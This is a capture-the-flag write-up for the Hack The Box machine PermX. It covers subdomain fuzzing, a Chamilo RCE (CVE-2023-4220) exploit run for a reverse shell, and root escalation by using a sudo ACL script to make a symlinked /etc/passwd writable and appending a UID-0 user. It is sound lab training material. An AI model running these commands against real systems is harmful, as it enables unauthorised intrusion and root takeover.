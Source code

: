 ```yaml
---
title: PermX
tags:
  - Linux
  - Chamilo
  - CVE
  - Symlinks
---
```

![](Pasted%20image%2020240901125933.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.23 permx.htb" | sudo tee -a /etc/hosts
```

Then I performed an Nmap scan:

```shell
nmap -sC -T4 -p- permx.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http
|_http-title: eLEARNING
```

So let's inspect the webpage:

![](Pasted%20image%2020240901130310.png)

After inspecting the source code, I decided to perform a [dirsearch 📁](/notes/tools/dirsearch.md) scan. I didn't find anything, so I decided to perform a [Ffuf 🐳](/notes/tools/Ffuf.md) domain scan:

```shell
ffuf -u http://permx.htb/ -H 'Host: FUZZ.permx.htb' -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -fc 302

[redacted]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 54ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 84ms]
```

>[!Note]
>*The `-fc` option is to filter by status codes*

I added the new subdomains to my known hosts and took a look at them:

![](Pasted%20image%2020240901131442.png)

A Free Software Learning Management system was found, **Chamilo**. 

## Weaponization

I found this script: [CVE-2023-4220](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)

## Exploitation

Once cloned, I used the script like:

```shell
python3 main.py -u http://lms.permx.htb -a revshell
```

>We've got a shell :D

![](Pasted%20image%2020240901132756.png)

Stabilize the shell with:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

Unfortunately, we've got no read permissions on user's home. So now I uploaded linpeas to gather information. I found the user's `mtz` password:

![](Pasted%20image%2020240901134117.png)

> So I connected through ssh and got the user flag :D

![](Pasted%20image%2020240901134211.png)

## Privilege Escalation

If we run linpeas again, we found the following:

![](Pasted%20image%2020240901134630.png)

If we run `sudo -l`:

![](Pasted%20image%2020240901134929.png)

Let's inspect that script:

![](Pasted%20image%2020240901135000.png)

This script allows us to set specific permissions on a specific file for a given user, but:
- The file path must be under `/home/mtz/`
- The file path cannot contain directory traversal symbols `..`

So, what we can do here is to create a symbolic link to the `/etc/passwd` file in the `/home/mtz` directory. Then edit the file to add a privileged user:

- Generate a password hash (in your machine):

```shell
openssl passwd gitblanc

$1$f38cgIRL$X1QP8m/e8ew.xshFc8Vd9/
```

- Escalate:

```shell
ln -s /etc/passwd passwd # create the symbolic link
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
echo 'gitblanc:$1$f38cgIRL$X1QP8m/e8ew.xshFc8Vd9/:0:0:root:/root:/bin/bash' >> /home/mtz/passwd
```

- Check the passwd file to confirm that the new privileged user exists:

![](Pasted%20image%2020240901140110.png)

> Now just login as the new user: `gitblanc:gitblanc`, and got the root flag

![](Pasted%20image%2020240901140819.png)

==Machine pwned!==
